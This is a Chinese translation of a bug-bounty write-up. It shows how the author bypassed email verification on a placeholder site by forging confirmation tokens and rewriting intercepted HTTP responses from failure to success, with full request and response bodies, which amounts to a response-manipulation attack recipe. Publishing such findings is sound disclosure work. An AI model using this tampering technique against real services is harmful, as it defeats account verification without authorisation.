

# 一个从很少到完全绕过电子邮件验证的奇怪案例

> 原文：<https://infosecwriteups.com/a-curious-case-from-little-to-complete-email-verification-bypass-2c7570040e7e?source=collection_archive---------0----------------------->

实现安全的电子邮件验证机制很容易出错。验证中的一个小错误会导致小问题或漏洞。然而，我要掩盖我最近遇到的一个案例。

输入所需的详细信息(名字、姓氏、电子邮件)后，将会发送一封验证邮件，以验证用户的真实性。验证邮件的结构如下

```
[https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)
```

访问该链接，您将被提示输入更多信息，如信用卡信息等。更改令牌的值导致了`Confirmation link is invalid.`，看起来令牌正在被验证。但是进一步检查发现`JSON`响应体是验证的罪魁祸首。

例如，如果上面的链接被访问，下面将是响应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With, {"response":{"status":"success","externalID":null,"errors":[]}}
```

但是，如果令牌被篡改(更改了第一个和最后一个值)，将会出现以下响应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With, {"response":{"status":"failure","externalID":"7[135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52da](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)e","errors":[{"code":"1210","message":"Confirmation link is invalid"}]},"userStatus":null}
```

最初我认为这可能是因为令牌部分正确，所以我决定使用完全随机的令牌。所以我伪造了如下链接

```
[https://yolosite.com/#/register/confirm/](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

以下是回应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;

{"response":{"status":"failure","externalID":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx","errors":[{"code":"1211","message":"User not associated with this external id"}]},"userStatus":null}
```

我再次尝试伪造链接，但这次我决定拦截响应，并用`{"response":{"status":"success","externalID":null,"errors":[]}}`替换上面的`JSON`

我被要求输入信用卡的详细信息。这不是唯一需要绕过的端点。事实证明，防御机制仅仅基于`JSON`响应，没有进行服务器端验证。然而，在进一步尝试输入信用卡详细信息并点击**完成注册**之后，请求和响应被启动

```
POST /rest/services/public/register/full HTTP/1.1
Host: yolosite.com
Connection: close

{"externalId":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx","locale":"en_IT","fullRegFields":{"card-alias-name-0":"Card-Name","card-numbers-0":"card-number","expiry-month-0":"MONTH","expiry-year-0":"2019","cvc-0":"cvc"}}
```

以下是对上述请求的回应

```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;{"status":"error","externalID":"","errors":[{"code":"0000","message":"An internal server error occurred"}]}
```

此时，这似乎是检查令牌的实际端点。尽管如此，我还是决定再次伪造回复，最终回复如下

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;{"response":{"status":"success","externalID":null,"errors":[]}}
```

上面的回复一转发，我就被带到了登录页面。但结果并不像我所期待的那样，我尝试登录，但我不能这样做。我决定进一步调查。

当经过**验证的**用户尝试登录时，请求如下。

```
POST /pkmslogin.form HTTP/1.1
Host: yolosite.com
Connection: close
Content-Type: application/x-www-form-urlencoded

username=username-here&password=Password-here&login-form-type=pwd
```

以下是我的回应

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1770
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAME-HERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.htm&HOSTNAME=yolosite.com&AUTHNLEVEL=
p3p: CP="NON CUR OTPi OUR NOR UNI"
Cache-Control: no-cache
Pragma: no-cache
Date: Sun, 04 Nov 2018 08:36:33 GMT
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAMEHERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

然后我试着用一个**未验证的账户**做了尝试，下面是回应

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1811
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=help&USERNAME=USERNAMEHERE&ERROR_CODE=0x13212079&ERROR_TEXT=HPDIA0121W%20%20%20The%20requested%20operation%20is%20not%20valid.&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL=
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=help&USERNAME=USERNAMEHERE&ERROR_CODE=0x13212079&ERROR_TEXT=HPDIA0121W%20%20%20The%20requested%20operation%20is%20not%20valid.&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

我再次篡改了上面的回复，最终编辑后的回复如下

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1770
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAME-HERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.htm&HOSTNAME=yolosite.com&AUTHNLEVEL=
p3p: CP="NON CUR OTPi OUR NOR UNI"
Cache-Control: no-cache
Pragma: no-cache
Date: Sun, 04 Nov 2018 08:36:33 GMT
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAMEHERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

上面的回复一转发，我就成功地绕过剩余的检查登录了这个账户。耶。

# **最终想法**

由于我能够完全绕过电子邮件验证，我本可以尝试注册@yolosite.com 电子邮件，但为时已晚。

